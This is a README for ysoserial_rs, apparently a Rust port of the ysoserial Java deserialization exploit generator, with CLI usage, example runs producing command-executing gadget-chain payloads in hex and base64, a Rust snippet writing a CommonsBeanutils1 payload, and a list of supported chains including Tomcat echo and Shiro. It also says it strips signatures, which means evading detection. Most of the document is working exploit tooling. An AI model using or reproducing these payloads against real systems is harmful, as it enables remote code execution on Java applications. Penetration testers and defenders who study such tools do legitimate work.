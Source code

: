 # ysoserial_rs

- ysoserial的rust实现
- 去特征，比原版体积小一半

## using

```shell
ysoserial_rs 0.0.1
author: Kali-Team

USAGE:
    ysoserial [OPTIONS]

OPTIONS:
    -c, --command <COMMAND>                 Command to execute
    -f, --format <FORMAT>                   Format to Hex or Base64 [possible values: hex, base64]
    -h, --help                              Print help information
        --header_name <ECHO HEADER NAME>    Tomcat echo request header name
    -l, --list                              List all payload
    -o, --output <OUTPUT>                   Save payload to file
    -p, --payload <PAYLOAD>                 Select a payload
        --url <URL>                         URL to request DNS
    -V, --version                           Print version information

```

### format

- hex

```shell
➜  ysoserial_rs git:(main) ✗ ysoserial -p cc1 -c whomai -f hex
aced00057372003273756e2e7265666c6563742e616e6e6f746174696f6e2e416e6e6f746174696f6e496e766f636174696f...
```

- base64

```shell
➜  ysoserial_rs git:(main) ✗ ysoserial -p cc1 -c whomai -f base64
rO0ABXNyADJzdW4ucmVmbGVjdC5hbm5vdGF0aW9uLkFubm90YXRpb25JbnZvY2F0aW9uSGFuZGxlclXK9Q8Vy36lAgACTAAMbWVtYm...
```

### output

```shell
➜  ysoserial_rs git:(main) ✗ ysoserial -p cc1 -c whomai -o cc1.ser
写入文件:cc1.ser,payload大小:1395
➜  ysoserial_rs git:(main) ✗ cat cc1.ser|xxd -ps
aced00057372003273756e2e7265666c6563742e616e6e6f746174696f6e
2e416e6e6f746174696f6e496e766f636174696f6e48616e646c657255ca
...
```

## examples

```shell
cargo run --example examples
```

- 详细请看examples目录

```rust
use std::fs::File;
use std::io;
use std::io::Write;
use ysoserial_rs::get_commons_beanutils1;

fn main() -> Result<(), io::Error> {
    let mut file = File::create("commons_beanutils1.ser")?;
    file.write_all(&get_commons_beanutils1("id"))?;
    Ok(())
}
```

## 支持列表

- [x] bs1
- [x] cc1
- [x] cc2
- [x] cc3
- [x] cc4
- [x] cc5
- [x] cc6
- [x] cc7
- [x] cck1
- [x] cck2
- [x] cck3
- [x] cck4
- [x] clojure
- [x] groovy1
- [x] hibernate1
- [x] hibernate2
- [x] javassist_weld1
- [x] jboss_interceptors1
- [x] jdk7u21
- [x] jdk8u20
- [x] json1
- [x] mozilla_rhino1
- [x] mozilla_rhino2
- [x] myfaces1
- [x] rome
- [x] spring1
- [x] spring2
- [x] cck1_tomcat_echo
- [x] cck2_tomcat_echo
- [x] url_dns
- [x] c3p0
- [x] vaadin1

- [x] shiro_spc

## 感谢

- 灵感：[Gososerial](https://github.com/EmYiQing/Gososerial)
- 开发工具：Meld，wxHexEditor，xxd